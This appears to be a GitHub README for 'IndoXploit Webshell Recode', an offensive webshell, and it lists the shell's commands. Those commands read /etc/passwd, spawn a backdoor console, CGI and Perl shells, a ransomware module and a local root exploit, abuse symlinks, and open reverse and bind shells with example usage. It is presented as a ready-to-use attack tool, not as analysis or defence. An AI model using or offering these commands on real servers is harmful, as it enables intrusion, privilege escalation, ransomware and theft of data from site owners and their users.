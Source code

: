 ## IndoXploit-Shell 
<pre>
===================================================================================================
                                    IndoXploit Webshell Recode
===================================================================================================

[+] Author: unknown
[+] Mail: orangrandom[at]proton.me
[+] Copyright © 2022 by - Flux10n

===================================================================================================
</pre>

## Command

- <b><i>Read File</i></b>
```
rf [filenane]
rf /etc/passwd
```

- <b><i>Spawn File</i></b>
```
spawn webconsole (execute command backdoor)
spawn cgitelnet1 (cgitelnet shell 1)
spawn cgitelnet2 (cgitelnet shell 2)
spawn cgipy (cgi python)
spawn soc (socket perl)
spawn rans (ransomware)
spawn adminer (adminer databese)
spawn LRE (local root exploit)
spawn fm (file manager)
spawn acs (auto create shell)
spawn phpinfo (file system info)
spawn func (getewe)
```

- <b><i>Jumping</i></b>
```
Usage: jumping
```

- <b><i>Spawn File</i></b>
```
Usage: idxconfig
```

- <b><i>Spawn File</i></b>
```
Usage: symlink
```

- <b><i>Krdp</i></b>
```
Usage: krdp
```

- <b><i>Logout From Shell</i></b>
```
Usage: logout
```

- <b><i>Kill Backdoor</i></b>
```
Usage: killme
```

- <b><i>Reverse Shell [Backconnect]</i></b>
```
usage: rvr bc [IP] [PORT] [TYPE]
```
Example:
```
rvr bc 127.0.0.1 1337 bash
rvr bc 127.0.0.1 1337 perl
```

- <b><i>Bind Port</i></b>
```
usage: rvr bp [PORT] [TYPE]
```
Example:
```
rvr bp 1337 perl
```

## Command prompt (CMD)
[https://github.com/flux10n/command-injection](https://github.com/flux10n/command-injection)

